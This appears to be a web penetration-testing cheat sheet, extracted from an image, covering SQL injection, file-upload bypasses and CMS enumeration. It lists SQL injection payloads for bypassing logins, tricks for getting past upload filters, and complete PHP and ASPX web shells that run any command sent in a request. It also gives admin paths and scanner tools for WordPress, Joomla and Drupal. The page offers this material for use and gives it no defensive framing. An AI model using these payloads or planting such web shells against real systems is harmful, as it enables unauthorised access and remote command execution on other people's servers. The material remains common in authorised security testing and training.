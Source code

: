 ## SQL Injection Testing

**Basic SQLi payloads:**
```
admin' OR '1'='1'--
admin'/**/OR/**/1=1--
admin' OR 1=1#
' OR '1'='1
" OR "1"="1
```

Test in both username and password fields. Look for error messages that reveal database type.

## File Upload Vulnerabilities

**Bypass techniques to test:**
- Double extensions: shell.php.jpg
- Null byte injection: shell.php%00.jpg
- Case variation: shell.PhP
- Content-Type manipulation
- Upload .htaccess to allow PHP execution
- Upload web shells disguised as images

**Simple PHP web shell:**
```php
<?php system($_GET['cmd']); ?>
```

**ASPX web shell:**
```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<% Response.Write(new Process { StartInfo = new ProcessStartInfo("cmd.exe", "/c " + Request["cmd"]) { UseShellExecute = false, RedirectStandardOutput = true } }.Start().StandardOutput.ReadToEnd()); %>
```

## CMS Enumeration

**WordPress:**
- Default admin: /wp-admin/
- XML-RPC: /xmlrpc.php
- User enumeration: /?author=1
- wpscan for comprehensive enumeration

**Joomla:**
- Default admin: /administrator/
- Configuration: /configuration.php
- joomscan for enumeration

**Drupal:**
- Default admin: /user/login
- CHANGELOG.txt reveals version
- droopescan for enumeration
